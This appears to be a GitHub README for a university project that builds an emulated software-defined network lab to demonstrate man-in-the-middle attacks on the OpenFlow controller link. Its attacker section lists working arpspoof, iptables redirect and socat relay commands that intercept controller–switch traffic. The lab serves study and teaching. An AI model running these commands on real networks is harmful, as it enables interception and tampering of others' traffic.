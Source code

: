 # ENPM693-final-project
# Man-in-the-Middle Attacks on the Southbound Interface in Software-Defined Networks

### Installing necessary tools
```
sudo apt update; sudo apt -y upgrade
sudo apt -y install git net-tools wireshark tshark iperf3
```

### Installing CORE network emulator
```
git clone https://github.com/coreemu/core.git
cd core
./setup.sh
inv install

# update PATH
export PATH=$PATH:/opt/core/venv/bin:/home/ubuntu/.local/bin

# running CORE
# 1st terminal - starting core-daemon
sudo env PATH=$PATH core-daemon

# 2nd terminal - starting core-gui
core-gui 
```

Next step is to import `sdn.xml` to emulator and start it.

Then run the following commands for mentioned devices.

### controller
```
ryu-manager --ofp-tcp-listen-port 6633 controller.py 
```

### switches
```
chmod +x init_ovs.sh
./init_ovs.sh 10.0.8.10
```

### attacker
```
sudo sysctl -w net.ipv4.ip_forward=1

sudo sysctl -w net.ipv4.conf.all.send_redirects=0


for ip in 10.0.8.1 10.0.8.2 10.0.8.3; do
  sudo arpspoof -i eth0 -t "$ip" 10.0.8.10 &
  sudo arpspoof -i eth0 -t 10.0.8.10 "$ip" &
done

# forward any TCP destined to 10.0.8.10:6633 into local port 6633
sudo iptables -t nat -A PREROUTING -p tcp --dport 6633 \
       -d 10.0.8.10 -j REDIRECT --to-ports 6633

# starting relay
# Listen locally on 0.0.0.0:6633  and forward to the controller 10.0.8.10:6633
sudo socat -v TCP-LISTEN:6633,reuseaddr,fork TCP:10.0.8.10:6633

wireshark
```

![](simulation.gif)
